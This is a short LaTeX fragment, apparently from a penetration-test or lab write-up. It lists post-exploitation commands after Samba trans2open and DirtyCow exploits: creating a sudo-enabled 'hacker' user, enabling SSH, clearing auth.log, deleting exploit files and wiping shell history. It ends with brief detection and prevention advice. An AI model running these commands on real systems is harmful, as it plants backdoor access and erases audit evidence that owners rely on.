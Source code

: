 \documentclass[12pt]{article}
\begin{document}
\textbf{Post-Exploitation Actions \& Persistence:}
\begin{itemize}
  \item \textbf{User Creation:}
    \begin{itemize}
      \item Command: \texttt{useradd -m -s /bin/bash hacker}
      \item Set password: \texttt{passwd hacker}
      \item Add to sudoers: \texttt{usermod -aG sudo hacker}
    \end{itemize}
  \item \textbf{Service Manipulation:}
    \begin{itemize}
      \item Enable SSH: \texttt{systemctl enable ssh}
      \item Start SSH: \texttt{systemctl start ssh}
      \item Configure SSH: \texttt{nano /etc/ssh/sshd\_config}
    \end{itemize}
  \item \textbf{Cleanup:}
    \begin{itemize}
      \item Clear logs: \texttt{echo > /var/log/auth.log}
      \item Remove exploit files: \texttt{rm /tmp/cow*}
      \item Clear bash history: \texttt{history -c}
    \end{itemize}
\end{itemize}

\textbf{Vulnerabilities Exploited:}
\begin{itemize}
  \item CVE-2003-0201 - Samba trans2open Buffer Overflow
  \item CVE-2016-5195 - DirtyCow Privilege Escalation
\end{itemize}

\textbf{Detection \& Prevention:}
\begin{itemize}
  \item Keep Samba and kernel versions updated
  \item Implement file integrity monitoring
  \item Enable SELinux/AppArmor
  \item Monitor for suspicious user creation
  \item Regular security audits
\end{itemize}
\end{document}
